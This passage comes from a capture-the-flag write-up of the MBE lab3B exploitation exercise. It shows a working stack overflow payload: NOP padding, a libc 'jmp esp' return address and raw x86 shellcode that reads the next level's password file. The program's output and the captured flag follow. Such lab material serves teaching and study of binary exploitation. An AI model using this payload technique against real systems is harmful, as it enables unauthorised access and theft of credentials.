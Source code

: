 Here, as we saw earlier, we will use the `jmp esp` address we found in **libc** as return address:

```shell
lab3B@warzone:/levels/lab03$ python -c 'exploit = 156 * "\x90" + "\xcd\xb1\xf0\xb7" + "\x31\xc9\x51\x68\x70\x61\x73\x73\x68\x33\x41\x2f\x2e\x68\x2f\x6c\x61\x62\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x2f\x2f\x89\xe3\x31\xc0\xb0\x05\xcd\x80\x89\xc7\x31\xd2\xb2\x32\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80" ; print exploit + "\n"' | ./lab3B
just give me some shellcode, k
wh0_n33ds_5h3ll3_wh3n_U_h4z_s4nd
````

Good job! You can go to the next [challenge](/writeups/mbe/lab3a/)!
